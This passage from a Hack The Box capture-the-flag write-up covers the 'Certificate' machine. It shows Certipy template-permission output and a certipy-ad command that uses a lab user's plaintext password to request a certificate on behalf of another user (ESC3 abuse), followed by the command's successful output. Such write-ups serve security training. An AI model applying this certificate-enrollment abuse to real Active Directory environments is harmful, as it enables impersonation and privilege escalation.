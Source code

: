 ```powershell
        "Object Control Permissions": {
          "Owner": "CERTIFICATE.HTB\\Administrator",
          "Full Control Principals": [
            "CERTIFICATE.HTB\\Domain Admins",
            "CERTIFICATE.HTB\\Enterprise Admins"
          ],
          "Write Owner Principals": [
            "CERTIFICATE.HTB\\Domain Admins",
            "CERTIFICATE.HTB\\Enterprise Admins"
          ],
          "Write Dacl Principals": [
            "CERTIFICATE.HTB\\Domain Admins",
            "CERTIFICATE.HTB\\Enterprise Admins"
          ],
          "Write Property Enroll": [
            "CERTIFICATE.HTB\\Domain Admins",
            "CERTIFICATE.HTB\\Domain Users",
            "CERTIFICATE.HTB\\Enterprise Admins"
          ]
        }
      },
      "[+] User Enrollable Principals": [
        "CERTIFICATE.HTB\\Domain Users"
      ],
      "[*] Remarks": {
        "ESC3 Target Template": "Template can be targeted as part of ESC3 exploitation. This is not a vulnerability by itself. See the wiki for more details. Template requires a signature with the Certificate Request Agent application policy."
```

So using the orange mindmap which is my eyes when it comes to Active Directory, I grab the command to request a new certificate in behalf of the ryan.k user. (if you are wondering how I found out the exact user. I simply used the shell of [Lion.SK](http://Lion.SK) and navigated to C:\Users to know the next target).

```powershell
┌──(certipy-env)─(sanke㉿vbox)-[~/Downloads/certificate]
└─$ certipy-ad req -u 'Lion.SK@certificate.htb' -p '!QAZ2wsx' -dc-ip 10.10.11.71 -template 'SignedUser' -ca 'Certificate-LTD-CA' -target 'DC01.certificate.htb' -on-behalf-of 'certificate\ryan.k' -pfx 'lion.sk.pfx'

Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 24
[*] Successfully requested certificate
[*] Got certificate with UPN 'ryan.k@certificate.htb'
[*] Certificate object SID is 'S-1-5-21-515537669-4223687196-3249690583-1117'
[*] Saving certificate and private key to 'ryan.k.pfx'
[*] Wrote certificate and private key to 'ryan.k.pfx'

```
